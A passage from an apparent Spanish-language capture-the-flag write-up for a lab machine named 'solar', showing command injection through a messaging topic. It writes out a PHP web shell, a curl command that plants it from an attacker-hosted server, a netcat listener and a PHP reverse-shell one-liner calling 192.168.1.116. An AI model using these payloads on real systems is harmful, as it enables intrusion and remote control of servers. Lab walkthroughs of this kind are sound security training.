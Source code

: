 Agregamos el parámetro **name** al JSON enviado al topic `server/command/new`.

![command2](../../../assets/images/solar/image-29.png)

También agregamos el parámetro `cmd` y ya no recibimos ningún error. 

En la programación de `/server.php` vemos que el comando es filtrado por la función `escapeshellcmd` de PHP. Según el manual de PHP, esta función...

```text
Los siguientes caracteres son precedidos por una barra invertida: #&;`|*?~<>^()[]{}$\, \x0A y \xFF. ' y " son escapados únicamente si no están emparejados.
```

Preparamos un fichero PHP y levantamos un servicio en el puerto 8000.

```bash
echo '<?php echo(exec($_GET["cmd"])); ?>' > shell.php 
python3 -m http.server 8000
```

y enviamos el siguiente payload en el topic `server/command/new` para subir el fichero `shell.php` (creado anteriormente) en la carpeta `/var/www/solar.nyx/records/`, ya que otras carpetas no nos funcionan y vimos que un script PHP (`/var/www/solar.nyx/records/index.php`) borra ficheros en esta carpeta.

```json
{
  "name": "upload-revshell",
  "cmd": "curl -o /var/www/solar.nyx/records/shell.php http://192.168.1.116:8000/shell.php"
}
```

Ejecutamos el comando `upload-revshell` desde la página `https://www.sunfriends.nyx/server.php` y observamos cómo se descarga el `shell.php` preparado.

```bash
nc -lvnp 12345
```

Enviamos el siguiente `revshell` a través del parámetro `cmd` URL encodeado.

```bash
php -r '$sock=fsockopen("192.168.1.116",12345);exec("/bin/bash <&3 >&3 2>&3");'
```
